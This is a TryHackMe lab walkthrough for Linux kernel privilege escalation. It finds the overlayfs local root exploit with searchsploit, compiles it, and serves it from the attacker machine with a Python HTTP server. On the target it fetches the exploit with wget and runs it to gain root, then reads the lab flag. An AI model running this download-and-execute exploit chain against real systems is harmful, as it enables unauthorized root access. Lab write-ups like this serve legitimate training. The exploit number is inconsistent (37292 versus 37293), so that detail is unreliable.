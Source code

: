 ```yaml
---
title: "Linux Priviledge Escallation room"
excerpt: "exploiting an obuntu kernel vulnerability, exploiting it on target to root"
date: 2025-08-03
tags: [exploits, ssh, ecallation, searchsploit]
layout: single
author_profile: true
---
```

### Exploiting obuntu kernel vulnerability
Start kali and connect to your tryhackme room using **sudo openvpn Lugadilu.ovpn**

To connect to target ssh, run the username ssh karen@<Target IP> then insert the password as given in the room ie ssh karen@10.10.230.146

after connecting to target, verify the OS and kernel Version ny running **uname -a** you get an output stating linux target 3.13.0-24-generic. 
The vulnerability is >>3.13.0-24**

### Kernel Exploit Search

Open a new terminal in your Kali and search for privilege escalation exploits related to the above kernel i.e **searchsploit ubuntu 14.04**
 You identify this exploit in the table **Linux Kernel 3.13.0 < 3.19 (Ubuntu 12.04/14.04 | linux/local/37292.c**

 copy it locally ie **searchsploit -m linux/local/37293.c**

 ### Compile the exploit on kali (attacker machine)
 Run **gcc 37292.c -o overlayfs-exploit -Wall** and verify by running **file overlayfs-exploit**

 ### Host Exploit on local web server
 still in your attacker kali, run HTTP server to serve the exploit i e **python3 -m http.server 8000**

 ### Transfer the exploit to target machine
 Firs confirm your kali Ip by running ifconfig and taking tun0 and not eth(local lan) ip since we are connected to tryhackme using vpn

swith to the target machine that we are running ssh and run the following sunsequently
**cd /dev/shm**
**wget http://<KALI_TUN0_IP>:8000/overlayfs-exploit -O exploit**
**chmod +x exploit**
**./exploit** -exloring for root access

Through this, you may het a GLIBC version error like i got when i did run ./exploit, this means the binary you compiled on kali is incomp
atible with the older system on the target. To fix this, compile on the target itself by running the following
**cd /tmp**
**wget http://<KALI_TUN0_IP>:8000/37292.c -O exploit.c**
**gcc exploit.c -o exploit**
**chmod +x exploit**

Exlore for root access by running **./exploit**
And now kudos!! you are the root. Verify this by running **whoami**

### Retrieving the flag
Locate and read  the flag by running 
find / -name flag1.txt 2>/dev/null
# /home/matt/flag1.txt

cat /home/matt/flag1.txt
# THM-28392872729920

Below are screenshots of the whole process 

